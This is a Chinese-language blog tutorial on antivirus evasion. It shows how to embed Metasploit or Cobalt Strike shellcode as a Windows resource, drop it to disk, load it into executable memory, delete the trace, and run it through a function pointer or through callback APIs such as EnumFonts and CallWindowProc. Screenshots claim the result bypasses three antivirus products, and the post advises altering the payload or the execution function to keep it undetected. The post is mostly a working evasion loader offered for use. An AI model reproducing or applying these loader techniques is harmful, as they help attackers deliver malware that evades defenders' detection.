 ```yaml
---
title: 资源分离免杀
tags: bypass
---
```


## 起因

很多文章都写到了分离免杀，采用的方法是将 shellcode 和 执行函数分离，开辟内存空间复制 shellcode，然后执行函数执行。改进版就是远程加载，让木马去下载存储在远程服务器的 shellcode。

昨天看 BackStab 代码的时候，它有一个将 ProcEXP.sys 放入资源文件，加载驱动前写入到磁盘的操作。这种操作其实就可以替代远程加载，只需要上传一个 exe 文件，在读取 shellcode 前先在当前目录释放一个 bin 文件，文件内容复制到开辟好的内存空间后再删除该文件，随后调用执行函数执行。

## 过程

### 加载资源

首先肯定是添加资源，随便添加什么资源，到时候再改就好了

![image-20210629164331246](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095850.png)

在项目目录下新建一个 resources 文件夹，存上 MSF 或 CS 生成的 shellcode 文件：

![image-20210629164528797](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095855.png)

打开 资源文件(.rc)，用编辑方式打开：

![image-20210629164646700](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095853.png)

修改资源文件

```c
#include "resource.h"

IDR_SYS RCDATA "..\\resources\\1.bin"
```

同样 resource.h 也应该修改

```
#define IDR_SYS                      101
```

### 资源释放

释放资源有两步，首先要定位资源并得到资源的大小和内容，然后写入文件。

第一步需要用到 4 个 API：

```c
// 确定资源位置，获得资源句柄
HRSRC FindResourceA(
  HMODULE hModule,	// NULL 代表当前进程或模块
  LPCSTR  lpName,	// 资源名称，MAKEINTRESOURCE(ID)，这里就是 MAKEINTRESOURCE(101)
  LPCSTR  lpType	// 资源类型，这里是RT_RCDATA，Application-defined resource (raw data)
);

//指定的资源加载到内存当中，获得句柄
HGLOBAL LoadResource(
  HMODULE hModule,	// Null 代表当前进程或模块
  HRSRC   hResInfo	// 资源句柄
);

// 锁定内存中的资源，返回指向资源数据的内存指针
LPVOID LockResource(
  HGLOBAL hResData
);

// 资源大小
DWORD SizeofResource(
  HMODULE hModule,
  HRSRC   hResInfo
);
```

这样就可以获得内存中资源数据的指针和资源大小。

第二步就是新建和写入文件

```c
HANDLE CreateFileW(
  LPCWSTR               lpFileName,
  DWORD                 dwDesiredAccess,	// GENERIC_WRITE
  DWORD                 dwShareMode,
  LPSECURITY_ATTRIBUTES lpSecurityAttributes,	// FILE_ATTRIBUTE_NORMAL
  DWORD                 dwCreationDisposition,	// CREATE_ALWAYS
  DWORD                 dwFlagsAndAttributes,
  HANDLE                hTemplateFile
);

BOOL WriteFile(
  HANDLE       hFile,
  LPCVOID      lpBuffer,	// LockResource 返回的指针
  DWORD        nNumberOfBytesToWrite,	// SizeofResource 返回的大小
  LPDWORD      lpNumberOfBytesWritten,
  LPOVERLAPPED lpOverlapped
);
```

### 文件写入到内存并删除

将释放出来的文件写入到内存中，用的还是老方法，开辟内存空间后打开文件，用 ReadFile 读到开辟好的内存空间中

```c
//申请内存空间
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

//打开文件仍然用 CreateFileW，修改参数为打开并读取
CreateFileW("1.bin", GENERIC_READ, 0, NULL, OPEN_ALWAYS, 0, NULL)

// 获取文件大小
DWORD GetFileSize(
  HANDLE  hFile,
  LPDWORD lpFileSizeHigh
);

// 读取文件到指定的缓冲器中
BOOL ReadFile(
  HANDLE       hFile,
  LPVOID       lpBuffer,	// 开辟的内存空间指针
  DWORD        nNumberOfBytesToRead,
  LPDWORD      lpNumberOfBytesRead,
  LPOVERLAPPED lpOverlapped
);
```

删除操作用的 DeleteFileW

```c
DeleteFileW(Path);
```

### 执行

执行的方法就很多了，经典执行：

```c
typedef void(__stdcall* CODE) ();
CODE code = (CODE)lpAddress;
code();
```
回调函数执行,[参考](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/)：

```c
EnumFonts(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char *)shellcode, 0);

EnumFontFamiliesEx(GetDC(0), 0, (FONTENUMPROC)(char *)shellcode, 0, 0);

LineDDA(10, 11, 12, 14, (LINEDDAPROC)(char *)shellcode, 0);

EnumFontFamilies(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char *)shellcode,0);

EnumDisplayMonitors((HDC)0,(LPCRECT)0,(MONITORENUMPROC)(char *)shellcode,(LPARAM)0);

GrayString(0, 0, (GRAYSTRINGPROC)(char *)shellcode, 1, 2, 3, 4, 5, 6);

CallWindowProc((WNDPROC)(char *)shellcode, (HWND)0, 0, 0, 0);

EnumResourceTypes(0, (ENUMRESTYPEPROC)(char *)shellcode, 0);
```

## 结果

杀软1检测：

![image-20210629174907927](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095902.png)

杀软2检测：

![image-20210629175207180](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095900.png)

杀软3检测：

![image-20210629180554436](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329095905.png)

## 后续

更改远程连接的地址只需要在编译前替换 resources 文件夹下的 bin 文件即可。

这里用的是 msf 生成的默认 shellcode 文件，被杀软检测出具备 MSF 特征，只需要对这个 bin 做处理就可以了，还可以更换执行函数来绕过杀软的检测，根据查杀的情况不同修改。

代码地址：https://github.com/Ryze-T/Bypass_frames